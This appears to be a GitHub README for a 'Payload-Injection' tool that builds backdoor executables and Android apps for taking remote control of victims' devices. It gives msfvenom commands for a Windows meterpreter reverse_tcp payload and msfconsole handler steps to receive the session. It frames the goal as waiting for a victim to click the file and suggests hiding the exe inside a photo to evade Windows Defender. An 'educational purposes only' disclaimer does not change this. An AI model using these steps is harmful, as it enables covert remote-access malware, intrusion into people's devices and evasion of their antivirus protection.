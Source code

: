 # [+]Warning!!
--------------------------------------------------------------------------------------------
Welcome everyone

**This tool is for educational purposes only, and our goal is not to make people victims or cause any kind of danger we are not responsible for any damages due to bad use**


# [+]About
--------------------------------------------------------------------------------------------
This is a payload creation machine Tool , To make something like back door and so one to completely remote a PC or android phone Just one click on the file "exe, apk" 
and u will be able to open a session and tunnel with your victim’s device with msfcosnsole Have a good time Good bye my friend …


 # [+]How to Download
open you terminal as root " be careful with your path "

git clone https://github.com/Essam0o/Payload-Injection.git


 # [+]How to Run
--------------------------------------------------------------------------------------------
After preparing your payload via Payload-injection tool you can open msfconsole and lunch your paylaod which has been created open your terminal as a root in any path and type

**sudo su**

**msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost = your ip lport = 4444 > FileName .exe**

if you build up a paylaod for android you will change the windows to android and so on 

u can get your ip from terminal type **sudo ifconfig**

Then wait to complete download the file and check your path on your os
  
**msfconsole**

wiat proccess// 


**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**


**set lhost   enter your ip**

**set lport 4444**

**run**

 HERE WE ARE DONE OF CREATING A VIRUS ALL U NEED TO WAIT THE VICTIM TO CLICK ON THE APK  OR EXE FILE
 
 Tip 
 
 
 you can merge your exe file in a photo to prevent windows defenter detect the virus , or merge it by the way you like it


~Happy Hacking-Good luck
